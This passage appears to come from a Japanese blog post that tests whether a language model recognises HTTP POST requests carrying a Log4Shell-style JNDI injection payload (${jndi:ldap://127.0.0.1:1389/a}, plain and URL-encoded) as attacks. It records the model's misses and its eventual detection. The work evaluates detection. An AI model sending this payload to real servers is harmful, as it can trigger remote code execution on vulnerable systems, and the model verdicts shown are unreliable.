 <div class="md-code" style="width:100%">
<pre class="code" data-lang="" data-unlink>
<span style="color: #ff0000">No</span>, this is not a cyber attack. This is an HTTP request for a web page.
</pre>
</div>

#### POSTパラメータ & ヘッダ無し

- POST：`${jndi:ldap://127.0.0.1:1389/a}`
- 2.68 秒
- **検出なし**

<div class="md-code" style="width:100%">
<pre class="code" data-lang="" data-unlink>
Is the following HTTP request a cyber attack?
-----
POST /post HTTP/1.1

msg=<span style="color: #ff0000">%24%7Bjndi%3Aldap%3A%2F%2F127.0.0.1%3A1389%2Fa%7D</span>&_token=Qu5lkUoatVRwANAHzWEUKMdRrLBcCcS7Np3Nxpsu
</pre>
</div>

<div class="md-code" style="width:100%">
<pre class="code" data-lang="" data-unlink>
<span style="color: #ff0000">No</span>, this is not a cyber attack. It appears to be a normal HTTP request.
</pre>
</div>

　<span style="color: #ff0000">**特定プロダクトに対する攻撃の検出には困難している模様。**</span>

#### POSTパラメータ & ヘッダ無し

　さらにノイズをなくすためにCSRFトークンも削除してみる。

- POST：`${jndi:ldap://127.0.0.1:1389/a}`
- POSTパラメータからCSRFトークンを削除
- ？秒
- **<span style="color: #ff0000">検出あり</span>**

<div class="md-code" style="width:100%">
<pre class="code" data-lang="" data-unlink>
Is the following HTTP request a cyber attack?
-----
POST /post HTTP/1.1

p=<span style="color: #ff0000">%24%7Bjndi%3Aldap%3A%2F%2F127.0.0.1%3A1389%2Fa%7D</span>
</pre>
</div>

<div class="md-code" style="width:100%">
<pre class="code" data-lang="" data-unlink>
<span style="color: #ff0000">Yes</span>, this is a cyber attack. The request is attempting to exploit a <span style="color: #ff0000">JNDI injection</span> vulnerability.
</pre>
</div>
